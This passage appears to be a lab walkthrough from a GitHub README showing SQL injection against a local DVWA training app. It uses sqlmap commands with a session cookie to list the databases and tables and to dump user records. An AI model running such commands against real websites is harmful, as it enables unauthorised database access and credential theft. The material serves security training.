 4. Fetch the url of webiste you want to attack

![image](https://github.com/user-attachments/assets/933ada14-04f2-4006-a3cd-c6d502a63515)

Change the DVWA security to Medium (default: Low)
![image](https://github.com/user-attachments/assets/5b7fd915-141b-4c37-8188-6721a09b9cc5)


Enter any value for this to retun a url : `http://localhost:8080/vulnerabilities/sqli/?id=2`

5. Get information about all available databases


![image](https://github.com/user-attachments/assets/6fe65cb0-f62d-4a0e-8b42-89f65bf88927)


Get cookie value of website: PHPSESSID=bfnm4a8n1ntq0tobf18n6fj770

Cd into sqlmap directory after clone it from git 
```bash
cd sqlmap
```
Then use python command to run sqlmap.py with following parameters
```bash
python3 sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --dbs --cookie="PHPSESSID=bfnm4a8n1ntq0tobf18n6fj770; security=low" --random-agent
```

![image](https://github.com/user-attachments/assets/1fd15067-c346-4145-8f25-c93ae5470018)



Return 2 available databases named : dvwa and information_schema

**Answer 1**:
Use sqlmap to get tables
```bash
python3 sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=bfnm4a8n1ntq0tobf18n6fj770; security=low" --tables
```
![image](https://github.com/user-attachments/assets/b40ce90f-34de-45e5-a2dd-1a2e5a535350)

Use sqlmap to get users
```bash
python3 sqlmap.py -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=bfnm4a8n1ntq0tobf18n6fj770; security=low" users --dump
```
![image](https://github.com/user-attachments/assets/0d68bf79-bb95-4a50-82c2-b4d174cd42d0)
